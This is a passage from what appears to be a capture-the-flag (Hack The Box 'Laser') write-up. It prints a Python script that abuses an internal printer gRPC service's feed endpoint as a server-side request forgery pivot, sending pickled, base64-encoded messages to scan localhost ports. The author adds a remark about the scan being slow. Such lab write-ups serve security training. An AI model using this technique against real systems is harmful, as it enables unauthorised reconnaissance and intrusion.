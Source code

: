 * [https://www.kite.com/python/answers/how-to-get-the-value-of-an-exception-as-a-string-in-python](https://www.kite.com/python/answers/how-to-get-the-value-of-an-exception-as-a-string-in-python) 
* [https://www.geeksforgeeks.org/port-scanner-using-python/](https://www.geeksforgeeks.org/port-scanner-using-python/)

```python
import laser_pb2_grpc
import laser_pb2
import grpc
import base64
import pickle


def scan():
    #Run the below code for all 65535 ports (minus 0)
    for port in range(1,65535):
        print(f"Trying port: {port}", end ='\r', flush = True)

        #Use insecure channel since we do not have credentials
        channel = grpc.insecure_channel('printer.laserinternal.htb:9000')
        stub = laser_pb2_grpc.PrintStub(channel)

        #Testing to see if there are more ports open on the internal localhost using same message
        message = '{' + '"version": "v1.0", "title": "Printer Feed", ' + f'"feed_url": "http://localhost:{port}"' + '}'
        #print(f"Message sent is {message}")
        enc_message = base64.b64encode(pickle.dumps(message))
        content = laser_pb2.Content(data=enc_message)
        try:
            response = stub.Feed(content)

            #Print the ports that respond to our connection, along with the message
            print(f"Port {port} open!")
            print(f"Connection received on port: {port}",response)
            print("")
            #print(str(response))

        except Exception as e:
            #str_e = str(e)
            #print(f"There was an error: {str_e}")
            if 'Connection refused' in e.details():
                continue
            print(f"Port {port} open!")
            print(e.details())
            print("")

scan()
```

I used the `grpc_client.py` as a base to build the port scanner.  The scanner was very slow as it made a full connection, sent its message, and waited for a reply for every port. I thought about making the script multithreaded, but had to go out so I left it running instead.  
